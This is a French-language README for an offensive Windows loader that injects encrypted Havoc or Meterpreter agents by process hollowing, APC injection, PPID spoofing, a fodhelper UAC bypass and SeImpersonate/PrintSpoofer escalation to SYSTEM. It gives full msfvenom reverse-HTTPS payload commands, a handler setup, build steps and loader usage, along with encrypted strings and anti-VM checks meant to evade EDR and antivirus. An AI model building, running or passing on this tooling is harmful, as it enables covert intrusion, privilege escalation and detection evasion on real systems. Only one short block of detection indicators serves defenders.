



# AES Loader - Havoc Agent Injector

# AES Loader - Havoc Agent Injector

Loader polyvalent pour injecter un agent Havoc chiffré en AES-256-CBC dans des processus Windows via **process hollowing**, **injection directe**, ou **UAC bypass**.

---

## 🚀 Quick Start

```bash
# 1. Générer un payload Meterpreter
❯ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.248 LPORT=443 -f exe -o meterpreter.x64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 677 bytes
Final size of exe file: 7680 bytes
Saved as: meterpreter.x64.exe

# 2. Compiler le loader avec le payload chiffré
❯ bash builder.sh meterpreter.x64.exe x64
[*] Encrypting payload and EDR strings...
14 strings EDR chargées depuis edr_strings.conf
[*] Compiling loader (x64)...
[+] Compilation successful: loader.exe

# 3. Démarrer le handler Metasploit
❯ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.45.248; set LPORT 443; exploit"
[*] Started HTTPS reverse handler on https://192.168.45.248:443
```

### 4. Exécution sur la cible (SeImpersonate + Process Hollowing)

```powershell
PS C:\Windows\Tasks> .\loader.exe -i -v -m hollow -f 'c:\windows\system32\calc.exe'
```



**Logs clés:**
- ✅ Anti-analysis checks passed (virtualization, timing)
- ✅ Named pipe created with UUID
- ✅ RPC trigger spawned automatically (PrintSpoofer intégré)
- ✅ SYSTEM token obtained (S-1-5-18)
- ✅ Relaunched as SYSTEM in Session 1
- ✅ Process hollowing de `calc.exe` (PID 1672)

### 5. Session Meterpreter - NT AUTHORITY\SYSTEM



### 6. Vérification - Task Manager



**Propriétés du processus `calc.exe` (PID 1672):**
- ✅ Image: Windows Calculator
- ✅ Path: `c:\Windows\System32\calc.exe`
- ✅ User: **NT AUTHORITY\SYSTEM**
- ✅ Parent: `<Non-existent Process> (4012)` - Parent relaunched terminé

**Résultat:** Process hollowing de `calc.exe` exécuté en **NT AUTHORITY\SYSTEM** via SeImpersonate escalation! 🔥

---

## 📚 Table des Matières

### Documentation
- **[Guide d'Utilisation Complet](doc/USAGE.md)** - Tous les modes d'injection, exemples, privilèges requis
- **[Audit OPSEC des Strings](doc/EDR_STRINGS_AUDIT.md)** - Liste des 14 strings chiffrées et statut de détection
- **[Roadmap OPSEC](doc/OPSEC_ROADMAP.md)** - Améliorations futures (syscalls, ETW, polymorphisme)

### Sections du README
- [📁 Structure du Projet](#-structure-du-projet)
- [🔧 Builder](#-builder)
- [📊 Milestones & Roadmap](#-milestones--roadmap)
- [📈 Current Status](#-current-status)
- [🎯 Fonctionnalités](#-fonctionnalités)
- [🔒 OPSEC - Strings Chiffrées](#-opsec---strings-chiffrées)
- [📋 Usage Rapide](#-usage-rapide)
- [🏗️ Architecture & Flux d'Exécution](#️-architecture--flux-dexécution)
- [👻 PPID Spoofing](#-ppid-spoofing)
- [⚡ SeImpersonate: Escalation à SYSTEM](#-seimpersonate-escalation-à-system-via-rpc-coercion-ms-rprn)
- [🚀 Cas d'Usage Typiques](#-cas-dusage-typiques)
- [⚠️ Restrictions & Limitations](#️-restrictions--limitations)
- [📦 Fichiers](#-fichiers)
- [🔧 Compilation](#-compilation)
- [🛡️ EDR Evasion - Strings Chiffrées](#️-edr-evasion---strings-chiffrées)

---
## � Structure du Projet

```
aes_loader/
├── builder.sh              # Script de compilation automatisé
├── myenc.py               # Générateur de chiffrement (14 strings EDR)
├── edr_strings.conf       # Configuration des strings à chiffrer
│
├── src/                   # Sources organisées par modules
│   ├── loader.cpp         # Point d'entrée principal
│   ├── crypto/            # Chiffrement AES-256-CBC
│   │   ├── easCipher42.cpp
│   │   └── crypto_funcs.cpp
│   ├── injection/         # Process injection techniques
│   │   ├── process_hollower.cpp
│   │   └── process_injection.cpp
│   ├── bypass/            # EDR/UAC bypass
│   │   ├── bypass_analysis.cpp
│   │   └── uac_bypass.cpp
│   ├── privesc/           # Escalade de privilèges
│   │   ├── seimpersonate.cpp
│   │   └── printspoofer_trigger.cpp
│   └── rpc/               # RPC stubs (MIDL-generated)
│       ├── ms-rprn_c.c
│       └── rpc_helpers.c
│
├── includes/              # Headers organisés par modules
│   ├── demon.x64.h        # (généré) 14 strings + payload chiffrés
│   ├── crypto/
│   ├── injection/
│   ├── bypass/
│   ├── privesc/
│   └── rpc/
│
├── obj/                   # Fichiers objets (.o) - créé au build
│
└── doc/                   # Documentation
    ├── USAGE.md           # Guide d'utilisation complet
    ├── EDR_STRINGS_AUDIT.md  # Audit OPSEC des strings
    └── OPSEC_ROADMAP.md   # Roadmap des améliorations

```

---

## 🔧 Builder

### Compilation
```bash
# Build standard
./builder.sh demon.x64.bin

# Build avec architecture spécifique
./builder.sh demon.x64.bin x64    # Default
./builder.sh demon.x64.bin x86    # 32-bit
```

### Nettoyage
```bash
# Nettoie loader.exe, includes/demon.x64.h, obj/
./builder.sh --clean
./builder.sh -c
```

**Sortie :** `loader.exe` (toujours le même nom)

---

## 📊 Milestones & Roadmap

### ✅ Phase 1: Core Functionality (COMPLÈTE)
- [x] Process Hollowing (PE x64)
- [x] APC Injection (smart PE/shellcode detection)
- [x] UAC Bypass via fodhelper
- [x] PPID Spoofing
- [x] AES-256-CBC Encryption
- [x] Anti-Analysis Checks (virtualization + timing)
- [x] 4 Injection Modes (DEFAULT/HOLLOW/APC/UAC)
- [x] **14 EDR Strings Chiffrées** (fodhelper, registry, spoolsv, SDDL, etc.)
- [x] Automated Builder (builder.sh)
- [x] Meterpreter Reverse HTTPS Testing ✅ **VALIDATED**
- [x] **Structure Modulaire** (src/, includes/, obj/)

### 🔄 Phase 2: OPSEC Enhancement (EN COURS)
- [x] SeImpersonate Privilege Escalation (PrintSpoofer RPC intégré) ✅ **WORKING**
- [x] **String Obfuscation Maximum** ✅ **14 strings chiffrées**
- [ ] Polymorphic RC4 Decryption (Shoggoth-inspired)
- [ ] Direct Syscalls (NtCreateProcess, NtWriteVirtualMemory, etc)
- [ ] ETW Patching (EtwEventWrite + AMSI)
- [ ] API Obfuscation (hash-based GetProcAddress)
- [ ] Behavioral Evasion (jitter, chunk writes, delays)
- [ ] SysWhispers2 Integration

### 📋 Phase 3: Additional Features (PLANIFIÉE)
- [ ] DLL Loader (Reflective DLL Injection)
- [ ] COFF Loader (Beacon Object Files)
- [ ] Indirect Syscalls (more furtive)
- [ ] Code Obfuscation (dead code, polymorphic patterns)
- [ ] Memory Cleanup (ZeroMemory critical buffers)
- [ ] Advanced Anti-Debugging

### 🎯 Phase 4: Testing & Validation (À VENIR)
- [ ] Defender Evasion Rate Test
- [ ] Avira Evasion Rate Test
- [ ] VirusTotal Multi-AV Detection
- [ ] ProcessMonitor Baseline (zero API calls)
- [ ] Memory Forensics Analysis
- [ ] Behavioral Detection Tests

---

## 📈 Current Status

| Component | Status | Last Tested |
|-----------|--------|-------------|
| **Process Hollowing** | ✅ Working | 2025-12-30 |
| **APC Injection** | ✅ Working | 2025-12-30 |
| **UAC Bypass** | ✅ Working | 2025-12-30 |
| **PPID Spoofing** | ✅ Working | 2025-12-30 |
| **SeImpersonate Escalation** | ✅ Working | 2026-01-17 |
| **14 EDR Strings Encrypted** | ✅ Verified | 2026-01-17 |
| **Modular Structure** | ✅ Implemented | 2026-01-17 |
| **Meterpreter Integration** | ✅ Session Live | 2025-12-30 |
| **Direct Syscalls** | 🔄 In Development | — |
| **Polymorphic Encryption** | 🔄 In Development | — |
| **ETW Patching** | 🔄 In Development | — |

---

## 🎯 Fonctionnalités

- 🔐 **Chiffrement AES-256-CBC** avec seed aléatoire de 42 bytes + PBKDF2
- 🔒 **14 Strings EDR Chiffrées** : fodhelper, registry paths, spoolsv.exe, SDDL, kernel32.dll, etc.
- 💉 **Process Hollowing** : Remplace l'image d'un processus suspendu par votre PE
- 🪡 **APC Injection Intelligente** : Détecte automatiquement PE vs shellcode brut
- 🛡️ **Anti-Analysis** : Vérification virtualization + timing pour détecter les sandboxes
- 🔄 **Gestion des relocations** : Fixe automatiquement les adresses si ImageBase change
- 👻 **PPID Spoofing** : Fait croire que le processus vient d'un parent différent
- 🚀 **UAC Bypass** : Élévation de privilèges via fodhelper
- ⚡ **SeImpersonate Escalation** : PrintSpoofer RPC intégré pour escalade SYSTEM automatique
- 📁 **Structure Modulaire** : Code organisé par fonctionnalité (crypto, injection, bypass, privesc)

---

## 🔒 OPSEC - Strings Chiffrées

**14 strings sensibles entièrement chiffrées :**

| Module | Strings Chiffrées | Impact |
|--------|-------------------|--------|
| **UAC Bypass** | fodhelper path, registry path, DelegateExecute, shell verb, svchost.exe | Signature UAC bypass invisible |
| **Bypass Analysis** | kernel32.dll, VirtualAllocExNuma | Anti-VM checks obfusqués |
| **SeImpersonate** | S-1-5-18, pipe paths, spoolsv.exe, WinSta0\Default, cmd.exe, SDDL | PrintSpoofer signatures masquées |

**Résultat :** Aucune string détectable statiquement - OPSEC maximum 🔥

## 📋 Usage Rapide

### Mode DEFAULT (Spawn svchost + APC)
```bash
# Défaut: crée svchost et injecte via APC (aucun flag)
.\loader.exe -v

# Avec PPID spoofing
.\loader.exe --ppid 500 -v

# Avec anti-analysis checks
.\loader.exe -a -v
```

### Mode HOLLOW (Process Hollowing)
```bash
# Hollowing svchost (défaut)
.\loader.exe -m hollow -v

# Hollowing avec cible personnalisée
.\loader.exe -m hollow -f notepad.exe -v
.\loader.exe -m hollow -f C:\Windows\System32\calc.exe -v

# Avec PPID spoofing
.\loader.exe -m hollow --ppid 500 -v
```

### Mode APC (Existing Process Injection)
```bash
# Injection dans processus existant (PID 1464)
# Détecte automatiquement PE ou shellcode
.\loader.exe -m apc -p 1464 -v
```

### Mode UAC (Privilege Escalation)
```bash
# UAC bypass avec commande custom
.\loader.exe -m uac -c "calc.exe" -v

# UAC bypass: re-lance loader sans flag UAC (en mode DEFAULT élevé)
.\loader.exe -m uac -v
```

### Mode SeImpersonate - Escalation à SYSTEM via RPC Coercion (AUTO)
```bash
# Escalade à SYSTEM via Print Spooler RPC intégré, puis spawn svchost + APC
.\loader.exe -i -v

# Escalade à SYSTEM, puis HOLLOW un processus custom en tant que SYSTEM
.\loader.exe -i -m hollow -f C:\Windows\System32\calc.exe -v

# Escalade à SYSTEM, puis injecter via APC dans explorer en SYSTEM context
.\loader.exe -i -m apc -p 1464 -v

# Escalade à SYSTEM et spawn une commande directement en SYSTEM
.\loader.exe -i -c "cmd.exe /c whoami > C:\temp\whoami.txt"
```

**Comment ça marche:**
1. Crée un named pipe UUID: `\\.\pipe\{UUID}\pipe\spoolss`
2. **Déclenche automatiquement RPC via MS-RPRN (PrintSpoofer intégré)**
3. Attend que spoolsv.exe (SYSTEM) se connecte au named pipe
4. Impersonne le token SYSTEM
5. Relance le loader **sans le flag `-i`** en tant que SYSTEM (Session 1)
6. Le loader relancé exécute l'injection normalement en contexte SYSTEM

**Prérequis:**
- Compte avec privilège SeImpersonate (NETWORK SERVICE, LOCAL SERVICE, IIS APPPOOL)
- **Aucun outil externe requis** - PrintSpoofer RPC intégré au loader
- Print Spooler service (spoolsv.exe) doit être démarré
- Délai timeout: 25-35 secondes avec jitter

### Options Complètes
```
-m, --mode MODE         hollow|apc|uac (défaut: none = DEFAULT mode)
-v, --verbose           Logs détaillés de debug
-f, --file PATH         Cible du hollowing (défaut: svchost.exe)
-p, --pid PID           APC injection dans processus existant
--ppid PPID             PPID spoofing (défaut parent)
-i, --impersonate       Escalade à SYSTEM via SeImpersonate + RPC coercion
-c, --cmd COMMAND       Commande custom pour UAC mode ou SeImpersonate
-a, --anti              Anti-analysis checks (auto avec -v)
-h, --help              Aide
```

## 🏗️ Architecture & Flux d'Exécution

### Phase 1: Initialisation
```
[Chiffrement]
  ├─ Seed 42 bytes (aléatoire)
  ├─ Clé PBKDF2 32 bytes
  └─ IV 16 bytes

[Anti-Analysis]
  ├─ Détection virtualization (HyperV, VirtualBox, VMware)
  └─ Vérification timing
```

### Phase 2: Détection du Payload
```
[Décryption]
  └─ Seed + ciphertext → Plaintext

[Détection Type]
  ├─ Si DOS signature (0x4D5A) + PE signature → PE Payload
  └─ Sinon → Raw Shellcode
```

### Phase 3a: Process Hollowing (PE)
```
[Création processus suspendu]
  ├─ CreateProcessW(target_exe, CREATE_SUSPENDED)
  └─ PPID Spoofing (optionnel avec PROC_THREAD_ATTRIBUTE_PARENT_PROCESS)

[Parsing PE Header]
  ├─ DOS header (e_magic, e_lfanew)
  ├─ NT header (signature, ImageBase)
  └─ Section headers

[Allocation Mémoire]
  ├─ VirtualAllocEx à ImageBase préféré
  └─ Fallback allocation dynamique si occupée

[Injection PE]
  ├─ WriteProcessMemory: headers
  ├─ WriteProcessMemory: chaque section
  ├─ Relocation fixing (si delta ≠ 0)
  └─ PEB ImageBase update

[Exécution]
  ├─ GetThreadContext + SetThreadContext (RCX = EntryPoint)
  └─ ResumeThread
```

### Phase 3b: APC Injection (PE ou Shellcode)
```
[Détection Auto]
  ├─ Check DOS + PE signature → PE Path
  └─ Pas de signature → Shellcode Path

[PE Injection]
  ├─ OpenProcess(pid)
  ├─ VirtualAllocEx (try ImageBase, fallback dynamic)
  ├─ WriteProcessMemory (headers + sections)
  └─ CreateRemoteThread(EntryPoint)

[Shellcode Injection]
  ├─ OpenProcess(pid)
  ├─ VirtualAllocEx (dynamic)
  ├─ WriteProcessMemory (raw bytes)
  └─ CreateRemoteThread(shellcode_addr)
```

## 🔍 Détection Automatique: PE vs Shellcode

Le loader détecte **automatiquement** le type de payload:

```
PE Payload (MZ header):
  4d5a90000300000004000000ffff0000...
  ↓ MZ + PE signature
  → Injection PE complète (sections, relocations, PEB)

Raw Shellcode (code machine):
  564889e64883e4f04883ec20e80f0000...
  ↓ Pas de signature
  → Injection simple (allocation + thread)
```

**Logs de détection:**
```
[*] Smart injection - detecting payload type...
[*] Detected: PE payload
[+] Payload ImageBase: 0x140000000

OU

[*] Detected: Raw shellcode
[*] Allocating memory (103935 bytes)...
```

## 👻 PPID Spoofing

Change le parent apparent d'un processus:

```bash
# Normal: explorer.exe → loader.exe → svchost.exe
# Résultat: Parent de svchost = explorer

# Spoofé: svchost.exe → Parent PID 500
.\loader.exe -h -f svchost.exe --ppid 500
```

**Restrictions:**
- Nécessite droits administrateur
- Hollowing uniquement (pas APC)
- PID parent doit être valide

## � SeImpersonate: Escalation à SYSTEM via RPC Coercion (MS-RPRN)

### Architecture du Mécanisme

**Le flag `-i` déclenche une escalade de privilèges en 5 étapes:**

```
┌─────────────────────────────────────────────────────────────────┐
│ STEP 1: Named Pipe Creation (Service/NETWORK SERVICE context)  │
├─────────────────────────────────────────────────────────────────┤
│ • Génère UUID aléatoire                                         │
│ • Crée pipe: \\.\pipe\{UUID}\pipe\spoolss                      │
│ • Mode: DUPLEX | FILE_FLAG_OVERLAPPED                          │
│ • Attend connexion (timeout: 25-35s avec jitter)               │
└─────────────────────────────────────────────────────────────────┘
                              ↓
┌─────────────────────────────────────────────────────────────────┐
│ STEP 2: RPC Coercion Trigger (INTÉGRÉ - Async Thread)          │
├─────────────────────────────────────────────────────────────────┤
│ • Thread asynchrone spawné automatiquement                      │
│ • Appelle RpcOpenPrinter() sur hostname local                  │
│ • Appelle RpcRemoteFindFirstPrinterChangeNotificationEx()      │
│   avec CaptureServer: \\hostname/pipe/{UUID}                   │
│ • Force spoolsv.exe (SYSTEM) à se connecter au named pipe      │
│ • Utilise MIDL-generated MS-RPRN stubs (ms-rprn_c.c)          │
│ • Binding RPC: ncacn_np (Named Pipe) vers \pipe\spoolss       │
└─────────────────────────────────────────────────────────────────┘
                              ↓
┌─────────────────────────────────────────────────────────────────┐
│ STEP 3: Token Impersonation (Named Pipe Acceptance)            │
├─────────────────────────────────────────────────────────────────┤
│ • ConnectNamedPipe() attend connexion en parallèle              │
│ • ImpersonateNamedPipeClient() capture le contexte SYSTEM      │
│ • DuplicateToken(Primary) → Token SYSTEM utilisable            │
│ • Vérifie SID = S-1-5-18 (NT AUTHORITY\SYSTEM)                 │
└─────────────────────────────────────────────────────────────────┘
                              ↓
┌─────────────────────────────────────────────────────────────────┐
│ STEP 4: Process Relaunching (CreateProcessAsUserW)             │
├─────────────────────────────────────────────────────────────────┤
│ • Construit argv SANS le flag -i                               │
│ • CreateProcessAsUserW(system_token, loader.exe -m hollow ...)│
│ • New process: SYSTEM privileges + Session 1 (interactive)     │
│ • Parent: Process original (NETWORK SERVICE ou autre)          │
└─────────────────────────────────────────────────────────────────┘
                              ↓
┌─────────────────────────────────────────────────────────────────┐
│ STEP 5: Normal Injection Execution                             │
├─────────────────────────────────────────────────────────────────┤
│ • Loader relancé exécute l'injection normalement               │
│ • Tout se fait EN TANT QUE SYSTEM dans Session 1               │
│ • Callback meterpreter: SYSTEM context + network access OK     │
└─────────────────────────────────────────────────────────────────┘
```

### Flux d'Exécution Détaillé

**Exemple: `.\loader.exe -i -m hollow -f calc.exe -v`**

```
┌──────────────────────────────────────────────────────────┐
│ NETWORK SERVICE Context (original process)               │
├──────────────────────────────────────────────────────────┤
│ 1. Parser argv → use_impersonate=true, mode=HOLLOW       │
│ 2. Condition: use_impersonate && !custom_command         │
│    ✓ Déclenche relaunch pattern                          │
│                                                          │
│ 3. SeImpersonate escalation:                             │
│    • CreateNamedPipe(UUID)                               │
│    • Print "RPC trigger: SpoolSample.exe ..."           │
│    • WaitForNamedPipe() bloque...                        │
│    • [Waiting for 30 seconds...]                         │
│                                                          │
│ 4. RPC Connection Received:                              │
│    • spoolsv.exe a connecté le pipe                      │
│    • ImpersonateNamedPipeClient() → SYSTEM token         │
│    • DuplicateTokenEx() → Primary token SYSTEM           │
│    • Verify SID: S-1-5-18 ✓                              │
│                                                          │
│ 5. Rebuild Command Line:                                 │
│    Original: loader.exe -i -m hollow -f calc.exe -v     │
│    Rebuilt:  loader.exe -m hollow -f calc.exe -v        │
│              (flag -i supprimé)                          │
│                                                          │
│ 6. CreateProcessAsUserW(system_token, rebuilt_cmd...)   │
│    • Crée loader.exe relancé                             │
│    • New PID: 3940 (SYSTEM, Session 1)                   │
│    • Parent: NETWORK SERVICE process (1234)              │
│    • Attend que child termine                            │
│    • Return exit_code                                    │
└──────────────────────────────────────────────────────────┘
                          ↓↓↓
┌──────────────────────────────────────────────────────────┐
│ SYSTEM Context (relaunched process, Session 1)           │
├──────────────────────────────────────────────────────────┤
│ 1. Parser argv → use_impersonate=FALSE (flag retiré)     │
│ 2. Skip relaunch pattern (pas de -i)                     │
│ 3. HOLLOW Mode normal:                                   │
│    • ProcessHollower::HollowProcess()                    │
│    • Crée calc.exe suspendu                              │
│    • Écriture des sections du payload                    │
│    • Injection PE complète                               │
│    • ResumeThread → Payload s'exécute                    │
│                                                          │
│ 4. Resultat:                                             │
│    • calc.exe contient meterpreter                       │
│    • Exécution: SYSTEM + Session 1                       │
│    • Callback: ✅ SUCCESS (network access OK)           │
└──────────────────────────────────────────────────────────┘
```

### Contexte d'Exécution par Mode

| Mode | Sans `-i` | Avec `-i` |
|------|-----------|-----------|
| **DEFAULT** | spawn svchost (User) | spawn svchost (SYSTEM) |
| **HOLLOW** | hollow cible (User) | hollow cible (SYSTEM) |
| **APC -p <PID>** | APC dans PID as User | APC dans PID as SYSTEM¹ |
| **Custom -c CMD** | execute CMD (User) | execute CMD (SYSTEM) |

¹ **Important**: APC dans user process (explorer) = le code injecté s'exécute en tant qu'utilisateur, même si l'injection se fait depuis contexte SYSTEM

### OPSEC et Indicateurs de Détection

**✅ Bon OPSEC:**
```
• Pipe naming: UUID (pas "spoolss" en dur)
• Timeouts: Jittered 25-35s (pas fixe)
• Seul 1 appel ImpersonateNamedPipeClient
• RPC source: Légitime (spoolsv.exe SYSTEM)
• Pas d'énumération de services
• Token primaire (pas duplication risquée)
```

**⚠️ Indicateurs de détection (EDR/SOC):**
```
• Création named pipe: \\.\pipe\*\pipe\spoolss
• Attente de connexion nommée (25-35s timeout visible)
• RPC inbound sur port 135/445 vers target
• SpoolSample.exe exécuté sur attacker machine
• CreateProcessAsUserW call (peu d'usage légitime)
• Process parentage: service → explorer (anachronique)
• ETW event: RPC call RpcOpenPrinter de spoolsv
```

## 🚀 Cas d'Usage Typiques

| Scénario | Commande | Résultat |
|----------|----------|----------|
| **Injection basique** | `.\loader.exe -h` | svchost.exe créé + PE injecté |
| **Injection discrète** | `.\loader.exe -h -f notepad.exe` | notepad paraît actif |
| **PPID spoofing** | `.\loader.exe -h --ppid 500` | Process tree falsifié |
| **Injection existant** | `.\loader.exe -p 1464` | Auto-détecte PE/shellcode |
| **UAC + Hollowing** | `.\loader.exe -u -v -h -f calc.exe` | Auto-élévation |
| **SeImpersonate + HOLLOW** | `.\loader.exe -i -m hollow -f calc.exe -v` | Escalation SYSTEM + hollow calc |
| **SeImpersonate + APC** | `.\loader.exe -i -m apc -p 1464 -v` | Escalation SYSTEM + inject explorer |
| **Debug complet** | `.\loader.exe -v` | Logs PE, relocations, PEB |

## ⚠️ Restrictions & Limitations

### Privilèges Requis
- **Hollowing simple** : User normal ok
- **Hollowing + PPID** : Admin requis
- **Injection existant** : Dépend de la cible
- **UAC bypass** : User → Auto-relance en admin

### Format Payload
- **Hollowing** : PE complet (DOS + PE + sections) obligatoire
- **Injection** : PE ou shellcode brut (auto-détecté)
- **Architecture** : x64 uniquement

### Gestion ImageBase

| Situation | Comportement |
|-----------|-------------|
| ImageBase libre | Allocation à l'adresse préférée |
| ImageBase occupée | Allocation dynamique + relocation fixing |
| Pas de table reloc | Exécution à adresse aléatoire (risque crash) |

### Détections Possibles
- ✅ Anti-virtualization checks
- ✅ Timing verification
- ❌ Pas de anti-debugging
- ❌ Pas de code obfuscation

## 📦 Fichiers

| Fichier | Rôle |
|---------|------|
| **src/loader.cpp** | Point d'entrée, parsing args, orchestration |
| **src/crypto/** | |
| ├ easCipher42.cpp | AES-256-CBC encryption/decryption |
| └ crypto_funcs.cpp | PBKDF2, hex utils |
| **src/injection/** | |
| ├ process_hollower.cpp | Hollowing (création + PE injection) |
| └ process_injection.cpp | Injection intelligente (PE + shellcode) |
| **src/bypass/** | |
| ├ bypass_analysis.cpp | Anti-VM + timing checks |
| └ uac_bypass.cpp | UAC elevation via fodhelper |
| **src/privesc/** | |
| ├ seimpersonate.cpp | SeImpersonate escalation via RPC |
| └ printspoofer_trigger.cpp | Print Spooler RPC coercion trigger |
| **src/rpc/** | |
| ├ ms-rprn_c.c | MIDL-generated MS-RPRN RPC stubs |
| └ rpc_helpers.c | RPC binding helpers |
| **includes/demon.x64.h** | Payload + 14 strings EDR chiffrées (généré) |
| **myenc.py** | Script de chiffrement AES pour build |
| **edr_strings.conf** | Configuration des 14 strings sensibles |
| **builder.sh** | Script de compilation automatisé |

## 🔧 Compilation

### Build Automatisé (Recommandé)
```bash
# Build standard (x64)
./builder.sh demon.x64.bin

# Build x86
./builder.sh demon.x64.bin x86

# Nettoyage complet
./builder.sh --clean
```

**Ce que builder.sh fait :**
1. Chiffre le payload + 14 strings EDR avec `myenc.py`
2. Génère `includes/demon.x64.h` avec les arrays chiffrés
3. Compile tous les modules depuis `src/` vers `obj/`
4. Cross-compile avec mingw-w64 (x64 ou x86)
5. Link avec RPC libraries (rpcrt4, advapi32, etc.)
6. Strip debug symbols
7. Cleanup .o files

**Output:** `loader.exe` (nom fixe)

### Compilation Manuelle (Linux/MinGW)
```bash
# Générer demon.x64.h d'abord
python3 myenc.py demon.x64.bin

# Compiler tous les modules
x86_64-w64-mingw32-g++ -std=c++17 -Wall -O2 \
  -Iincludes -Iincludes/crypto -Iincludes/injection \
  -Iincludes/bypass -Iincludes/privesc -Iincludes/rpc \
  src/loader.cpp \
  src/crypto/*.cpp \
  src/injection/*.cpp \
  src/bypass/*.cpp \
  src/privesc/*.cpp \
  src/rpc/*.c \
  -o loader.exe \
  -lrpcrt4 -lkernel32 -lntdll -ladvapi32 -lshell32 -lole32 -s
```

## 🛡️ EDR Evasion - Strings Chiffrées

**14 strings sensibles entièrement chiffrées en AES-256** et déchiffrées **inline au runtime** :

### Strings Protégées (edr_strings.conf)
| Module | String | Valeur Originale | Protection |
|--------|--------|------------------|-----------|
| **UAC Bypass** | fodhelper_path | `C:\Windows\System32\fodhelper.exe` | ✅ AES-256 |
| | registry_path | `Software\Classes\ms-settings\shell\open\command` | ✅ AES-256 |
| | delegate_execute | `DelegateExecute` | ✅ AES-256 |
| | shell_verb | `open` | ✅ AES-256 |
| | default_process | `C:\Windows\System32\svchost.exe` | ✅ AES-256 |
| **Bypass Analysis** | kernel32_dll | `kernel32.dll` | ✅ AES-256 |
| | virtualalloc_exnuma_api | `VirtualAllocExNuma` | ✅ AES-256 |
| **SeImpersonate** | system_sid | `S-1-5-18` | ✅ AES-256 |
| | pipe_prefix | `\\\\.\\pipe\\` | ✅ AES-256 |
| | pipe_suffix | `\\pipe\\spoolss` | ✅ AES-256 |
| | spoolsv_exe | `spoolsv.exe` | ✅ AES-256 |
| | desktop_station | `WinSta0\\Default` | ✅ AES-256 |
| | cmd_exe | `cmd.exe` | ✅ AES-256 |
| | sddl_everyone | `D:(A;;GA;;;WD)` | ✅ AES-256 |

### Gestion des Strings
```bash
# Configuration dans edr_strings.conf (14 strings)
cat edr_strings.conf

# Génération automatique via builder.sh
./builder.sh demon.x64.bin
# → Chiffre les 14 strings → includes/demon.x64.h

# Vérification anti-détection (aucune string en clair)
strings loader.exe | grep -i "DelegateExecute"    # ✅ Vide
strings loader.exe | grep -i "ms-settings"        # ✅ Vide
strings loader.exe | grep -i "spoolss"            # ✅ Vide
strings loader.exe | grep -i "S-1-5-18"           # ✅ Vide
```

**Résultat OPSEC:** Aucune signature statique détectable - 14/14 strings masquées 🔥

---

## 📦 Builder Automatisé

### Flux Complet (builder.sh)

Le script **builder.sh** automatise l'ensemble du process:

```bash
# Usage standard
./builder.sh demon.x64.bin          # Build x64
./builder.sh demon.x64.bin x86      # Build x86

# Nettoyage
./builder.sh --clean                # Supprime loader.exe, includes/demon.x64.h, obj/
```

**Étapes exécutées automatiquement:**

1. **Chiffrement du payload + 14 EDR strings**
   ```
   python3 myenc.py demon.x64.bin
   ↓ 
   Génère: includes/demon.x64.h
   - payload_enc[] + payload_enc_len
   - 14 strings chiffrées (fodhelper_path_enc[], registry_path_enc[], etc.)
   ```

2. **Compilation modulaire**
   ```
   src/crypto/*.cpp     → obj/easCipher42.o, obj/crypto_funcs.o
   src/injection/*.cpp  → obj/process_hollower.o, obj/process_injection.o
   src/bypass/*.cpp     → obj/bypass_analysis.o, obj/uac_bypass.o
   src/privesc/*.cpp    → obj/seimpersonate.o, obj/printspoofer_trigger.o
   src/rpc/*.c          → obj/ms-rprn_c.o, obj/rpc_helpers.o
   src/loader.cpp       → obj/loader.o
   ```

3. **Linking avec RPC libraries**
   ```
   g++ obj/*.o -o loader.exe -lrpcrt4 -ladvapi32 -lkernel32 ...
   ```

4. **Strip + Cleanup**
   ```
